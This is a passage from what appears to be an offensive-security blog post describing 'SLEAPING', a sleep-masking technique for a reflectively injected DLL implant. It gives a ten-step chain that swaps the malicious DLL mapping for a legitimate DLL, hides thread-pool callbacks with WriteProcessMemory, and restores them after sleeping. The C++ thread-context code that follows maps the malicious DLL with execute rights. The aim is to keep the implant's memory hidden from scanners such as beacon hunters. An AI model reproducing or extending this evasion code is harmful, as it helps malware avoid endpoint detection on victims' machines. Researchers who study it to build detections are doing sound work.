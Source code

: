 Having the opportunities to use these magic routines and objects, I have re-thought of my SLEAPING chain: 

1. Enumerate all the TpWorkerFactory objects for the process where the Reflective DLL is injected
2. Creating a queue of APCs for a thread (named ThreadHide) that would hang on an event (EventHide)
3. Creating a queue of APC for a thread (named ThreadFix) that would hang on an event (EventFix)
4. Unmap Reflective DLL Mapping (Timer + ResumeThread)
5. Map Legit DLL (Timer + ResumeThread)
6. Hide Callbacks (Timer + ResumeThread + SetEvent)
7. APCs for ThreadHide executed that would  “[WriteProcessMemory](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory)” all the TpWorkerFactory object containing a callback to ResumeThread and finally SetEvent(EventFix) 
8. APCs for ThreadFix executed that would Sleep first for “SleepingTime” and eventually “[WriteProcessMemory](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory)” all the ResumeThread callback back to where they belong
9. Unamp Legit DLL (Timer + ResumeThread)
10. Map the Reflective DLL Mapping (Timer + ResumeThread) 

Got tired only thinking about but it should work.  

## The Code

Before starting is important to mention that some of the code I used it’s been consulted and/or copied-pasta from the [HSB repository](https://github.com/thefLink/Hunt-Sleeping-Beacons) (for what concerns the TpWorkerFactory enumeration) and from the awesome outstanding code base available in  [Maldev Academy](https://maldevacademy.com/) (for what concerns the APCs operations and Foliage explaination) in order to achieve my ideas. But let’s cut to the chase now. 

The new version of Sleaping welcomes a new suspended thread (to execute the point 6) 

```cpp
[...]

//SLEPING threads contexts
*(ULONG_PTR*)((*context).Rsp) = (DWORD64)ExitThread;
(*context).Rip = (DWORD64)UnmapViewOfFile;
(*context).Rcx = (DWORD64)(ImageBaseDLL);

*(ULONG_PTR*)((*contextB).Rsp) = (DWORD64)ExitThread;
(*contextB).Rip = (DWORD64)MapViewOfFileEx;
(*contextB).Rcx = (DWORD64)sacDllHandle;
(*contextB).Rdx = FILE_MAP_ALL_ACCESS;
(*contextB).R8 = (DWORD64)0x00;
(*contextB).R9 = (DWORD64)0x00;
*(ULONG_PTR*)((*contextB).Rsp + 40) = 0x00; //the offset must be either hex 28 or int 40
*(ULONG_PTR*)((*contextB).Rsp + 48) = (ULONG_PTR)ImageBaseDLL;

*(ULONG_PTR*)((*contextC).Rsp) = (DWORD64)ExitThread;
(*contextC).Rip = (DWORD64)UnmapViewOfFile;
(*contextC).Rcx = (DWORD64)(ImageBaseDLL);

*(ULONG_PTR*)((*contextD).Rsp) = (DWORD64)ExitThread;
(*contextD).Rip = (DWORD64)MapViewOfFileEx;
(*contextD).Rcx = (DWORD64)malDllHandle;
(*contextD).Rdx = FILE_MAP_ALL_ACCESS | FILE_MAP_EXECUTE;
(*contextD).R8 = (DWORD64)0x00;
(*contextD).R9 = (DWORD64)0x00;
*(ULONG_PTR*)((*contextD).Rsp + 40) = 0x00; //the offset must be either hex 28 or int 40
*(ULONG_PTR*)((*contextD).Rsp + 48) = (ULONG_PTR)ImageBaseDLL;

//latest arrival for Sleepmasking spoofing
*(ULONG_PTR*)((*contextE).Rsp) = (DWORD64)ExitThread;
(*contextE).Rip = (DWORD64)SetEvent;
(*contextE).Rcx = (DWORD64)(EvntHide);

```